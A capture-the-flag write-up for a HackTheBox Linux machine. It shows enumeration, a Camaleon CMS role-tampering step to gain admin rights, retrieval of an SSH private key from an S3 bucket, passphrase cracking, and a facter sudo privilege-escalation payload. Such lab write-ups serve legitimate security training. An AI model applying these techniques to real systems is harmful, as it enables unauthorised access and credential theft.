
# Challenge Profile

- **Platform:** HackTheBox
- **Track:** Machine
- **Category:** Linux
- **Difficulty Level:** Easy

# Solving
### Step 1
- Run `nmap -T4 -v 10.129.244.96` to determine the open ports and services running on the target host.
- Found 2 ports open: 


- Access website `http://10.129.244.96`, the server automatically redirects the request to http://facts.htb and fails to load.
- Maybe the hostname is not yet resolvable, I edited /etc/hosts to add it.


### Step 2
- Explore the website, clicke through all menus, and reviewe page source but nothing of interest.
- Use `gobuster dir -u http://facts.htb/ -w /usr/share/wordlists/dirb/common.txt` to discover hidden files and directories.



- Gobuster returned many results with nearly idenical size -> these are false positives.
- Notable exceptions include `/admin/login`, `/robots.txt`, access them.
- Check `robots.txt`, but it only contains a link to the official documentation.

- Check `admin/login`, see the page login. But I didn't have admin account, so I created a new account.


- Login and access to admin dashboard, inspect page profile.


- Identify that the target application is running Camaleon CMS.
- Camaleon CMS is open source, search `Camaleon CMS CVE`



- Click change password button, enter new password and repeat new.
- Use Intercept on in Burp Suite to intercept packet.
- Based on code, try to change password[role] with value=admin:


- Reload and get admin priviledge


### Step 3

- Access Settings -> General Site, I found information about aws s3 in Filesystem Settings
.
- Run `aws configure` to set up the credentials I found.

- The site uses a local endpoint (http://localhost:54321), run `aws --endpoint-url http://facts.htb:54321 s3 ls s3://randomfacts --recursive` to list the contents of the S3 Bucket. But only having many image/images, nothing of interest.

- Run `aws --endpoint-url http://facts.htb:54321 s3 ls` to list all buckets, saw the internal bucket.

- List the bucket internal: `aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal --recursive`, found the private key for ssh
.
- Run `aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 id_ed25519` to copy file to my folder.
- Because file private key requires enter the passphrase, run `ssh2john id_ed25519 > hash.txt` to tranform key format to format tool join use.

- Use John the Ripper to crack password:`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`.


- Password: dragonballz
- Then, find the user for this key, run `ssh-keygen -y -f id_ed25519`.
  - -y: require read a private key file and print the public key to the screen which often contains the username.
  - -f: filename

- Find the user flag in william folder


### Step 4
- Run `sudo -l`: list the specific privileges my current user have.



- The information shows that we can run facter via sudo without a password. 
- Facter is a system profiling tool that allows loading custom facts through environment variables. 
- Create script to execute a Ruby-based payload (/bin/bash), resulting in instant root access: `echo 'Facter.add(:sh) { setcode { system("/bin/bash") } }' > /tmp/root.rb`.
- Run facter via sudo with the --custom-dir flag `sudo /usr/bin/facter --custom-dir /tmp sh` to load the fact and get root shell.
- Run `cd /root`, `cat root.txt` to read root flag.
